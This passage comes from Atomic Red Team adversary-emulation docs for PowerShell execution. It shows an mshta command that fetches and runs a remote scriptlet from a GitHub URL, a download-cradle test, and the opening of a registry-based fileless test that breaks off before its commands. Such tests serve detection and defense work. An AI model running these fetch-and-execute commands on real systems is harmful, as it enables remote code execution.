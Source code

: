 
#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| url | url of payload to execute | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059.001/src/mshta.sct|


#### Attack Commands: Run with `command_prompt`! 


```cmd
C:\Windows\system32\cmd.exe /c "mshta.exe javascript:a=GetObject('script:#{url}').Exec();close()"
```






<br/>
<br/>

## Atomic Test #10 - Powershell Invoke-DownloadCradle
Provided by https://github.com/mgreen27/mgreen27.github.io
Invoke-DownloadCradle is used to generate Network and Endpoint artifacts.

**Supported Platforms:** Windows


**auto_generated_guid:** cc50fa2a-a4be-42af-a88f-e347ba0bf4d7





#### Run it with these steps! 
1. Open Powershell_ise as a Privileged Account
2. Invoke-DownloadCradle.ps1







<br/>
<br/>

## Atomic Test #11 - PowerShell Fileless Script Execution
Execution of a PowerShell payload from the Windows Registry similar to that seen in fileless malware infections. Upon exection, open "C:\Windows\Temp" and verify that
art-marker.txt is in the folder.

**Supported Platforms:** Windows


**auto_generated_guid:** fa050f5e-bc75-4230-af73-b6fd7852cd73






#### Attack Commands: Run with `powershell`! 
